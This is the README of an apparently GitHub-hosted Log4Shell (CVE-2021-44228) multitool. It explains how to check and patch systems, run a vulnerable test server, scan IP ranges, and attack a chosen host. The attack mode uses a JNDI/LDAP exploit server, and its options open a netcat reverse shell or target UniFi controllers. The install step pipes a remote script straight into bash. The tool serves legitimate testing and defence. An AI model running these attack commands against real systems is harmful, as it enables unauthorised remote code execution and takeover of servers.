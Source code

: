 # log4shell4shell
Log4j - Multitool. Find &amp; fix possible CVE-2021-44228 vulneraries - provides a complete LOG4SHELL test/attack environment

![Thumb](/logo_banner.png )

# Features

- Check your Linux/Mac/BSD and Windows System for CVE-2021-44228 vulneraries
- Fix your system by deleting log4j java class / or setting some enviroment variables 
- Proof of Concept: you can run a dummy spring boot server for testing the exploit by yourself (https://github.com/christophetd/log4shell-vulnerable-app)
- You can run a attack against a wished IP-Port and include a Base64 Command / Or A simple Reverse Shell
- Full ip-range scanning by https://github.com/fullhunt/log4j-scan

# How to Run on Linux/Mac/BSD:

## Requirements:

- https://docs.docker.com/get-docker/
- Debian / Ubuntu: ```apt update ; apt install default-jre screen python3-pip bash curl```
- OpenSuse: ```zypper ref ; zypper in default-jre screen python3-pip bash curl```
- Redhead-Linux / CentOS: ```yum clean; yum install default-jre screen python3-pip bash curl```
- BSD pkg: ```pkg install default-jre screen python3-pip curl```
- Mac OS (Brew): ```/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)" ; brew install default-jre screen python3 pip```

## Quick check your system with this oneliner:

```bash
wget https://raw.githubusercontent.com/suuhm/log4shell4shell/main/log4shell4shell.sh -qO- | bash -s -- --check-system
```

## More Options
### Run a sample attack against IP: 10.4.4.20 Port 8080 loginpage and additionally a Reverse Proxy Shell:

```bash
git clone https://github.com/suuhm/log4shell4shell ; cd log4shell4shell
mv log4shell4shell.sh l4s4s.sh && chmod +x l4s4s.sh
./l4s4s.sh --run-attack http://10.4.4.20:8080/login.php -e
```
Run ```screen -r l4s4s-ldap-srv``` and/or ```screen -r l4s4s-nc-rsh``` to view some attacking infos in Exploit-Server shell: 


### Run a full scan  IP: 10.4.4.20 Port 8080 and additionally a try all tests :

```bash
./l4s4s.sh --python-scan "-u 10.4.4.20:8080 --run-all-tests"
```

### Run a Proof of Concept on a Tomcat Springboot Server:

```bash
./l4s4s.sh --run-dummy-server && \
./l4s4s.sh --run-attack http://127.0.0.1:4280 -e
```

### Run a Unifi-Controller Exploit Attack/Check (on 10.4.4.20:8443):

```bash
./l4s4s.sh --run-attack 10.4.4.20:8443 -e --unifi-post
```

## All available Options

```bash
_|                            _|  _|              _|                  _|  _|  _|  _|              _|                  _|  _|
_|          _|_|      _|_|_|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|
_|        _|    _|  _|    _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|
_|        _|    _|  _|    _|      _|        _|_|  _|    _|  _|        _|  _|      _|        _|_|  _|    _|  _|        _|  _|
_|_|_|_|    _|_|      _|_|_|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|
                          _|
                      _|_|


 > Running Log4shell Framework & Check-Toolkit on shell v0.1a (C) 2021 suuhm

Wrong input! Please enter one of these options:

Usage: ./l4s4s.sh [OPTIONS] <IP:PORT|COMMAND>

                        --get-powershell-finder
                        --check-system
                        --fix-log4j
                        --run-dummy-server <JNDIExploit.*.zip>
                        --run-attack <FORMAT: IP:PORT> <-e/-t/'cmd'> [--unifi-post]
                        --python-scan <command>

```

# How to upgrade your linux and/or macos python version:

Just run my helper-script (--list-versions): ``` ./python-upgrader.sh ```

# How to run on Windows x86 / x64:

Just run in Powershell (admin-mode): ``` .\set_windows_fix.ps1 ```


# This script is alpha! So please let me know if you have some issues

# Legal Disclaimer

The project log4shell4shell is made for educational and ethical testing purposes only. Usage of log4j-scan for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

